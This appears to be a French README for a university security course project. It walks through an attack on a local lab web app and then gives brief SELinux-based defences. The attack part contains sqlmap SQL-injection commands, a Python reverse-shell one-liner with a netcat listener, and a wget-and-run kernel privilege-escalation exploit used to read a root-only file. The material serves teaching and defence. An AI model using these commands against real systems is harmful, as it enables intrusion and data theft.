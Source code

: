 # INF8602 - Projet de session

## Attaque
- Accéder à la page : http://inf8602.local
- Se connecter avec : ``ebelanger``, ``motdepasse``

### Exploration

Exploration à l'aide de sqlmap :
```bash
./sqlmap.py --flush-session -u "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST
```

On constate que le serveur est vulnérable.

Listons les tables:
```bash
./sqlmap.py -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --method POST --dump -T users --stop 5
```

Les NAS ne sont pas là...

On souhaite obtenir un shell :
```bash
./sqlmap.py -u  "http://inf8602.local:5000/login/?username=ebelanger&password=motdepasse" --dbms=postgresql --method POST --no-cast --os-shell
```

On lance ensuite :
```bash
python3 -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.122.1",8080));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

Puis dans un autre terminal :
```bash
nc -l -p 8080 -vvv
```

Le shell est obtenu!

Il faut montrer que l'utilisateur est ``postgress`` et que les NAS sont dans ``/nas.txt`` :
```bash
whoami
ls -lsa /
uname -a
```

On constate que seul root peut accéder à ``nas.txt``. On constate également que le kernel fait partit de la liste suivante :
```c
struct kernel_info kernels[] = {
    {"5.11.0-22-generic #23~20.04.1-Ubuntu", 0x33ceb0, 0x166c2c0},
    {"5.11.0-25-generic #27~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-27-generic #29~20.04.1-Ubuntu", 0x33d390, 0x166c2e0},
    {"5.11.0-34-generic #36~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-36-generic #40~20.04.1-Ubuntu", 0x33e740, 0x166c340},
    {"5.11.0-37-generic #41~20.04.2-Ubuntu", 0x33eae0, 0x166c340},
    {"5.11.0-38-generic #42~20.04.1-Ubuntu", 0x33f400, 0x166c340},
    {"5.11.0-40-generic #44~20.04.2-Ubuntu", 0x33f980, 0x1c6c2e0},
    {"5.11.0-41-generic #45~20.04.1-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-43-generic #47~20.04.2-Ubuntu", 0x33fdb0, 0x1c6c2e0},
    {"5.11.0-44-generic #48~20.04.2-Ubuntu", 0x3400b0, 0x1c6c2e0},
    {"5.13.0-21-generic #21~20.04.1-Ubuntu", 0x34adc0, 0x1e6e060},
    {"5.13.0-22-generic #22~20.04.1-Ubuntu", 0x34b280, 0x1e6e060},
    {"5.13.0-23-generic #23~20.04.2-Ubuntu", 0x34b270, 0x1e6e0a0},
    {"5.13.0-25-generic #26~20.04.1-Ubuntu", 0x34b330, 0x1e6e0a0},
};
```

Il est possble de réaliser une elévation de privilège :
```bash
wget https://github.com/bourquejulien/INF8602-Projet/raw/main/SELinux/attack/exploit
chmod +x exploit
./exploit
bash -p
```

Il est maintenant possible d'accéder au NAS :
```bash
whoami
cat /nas.txt
```

## Défense

Pour relance la DB :
```bash
sudo systemctl restart postgresql
```

**Plusieurs défenses existents.**

Pour éviter les injections SQL :
```bash
sudo systemctl stop inf8602
sudo systemctl start inf8602-safe
```

Pour éviter l'exécution de l'attaque :
```bash
sudo systemctl stop inf8602-safe
sudo systemctl start inf8602

sestatus
sudo setenforce 1
sestatus
```

**Relancer l'attaque**

Pour éviter l'exécution de l'attaque :
```bash
sudo setenforce 0
```
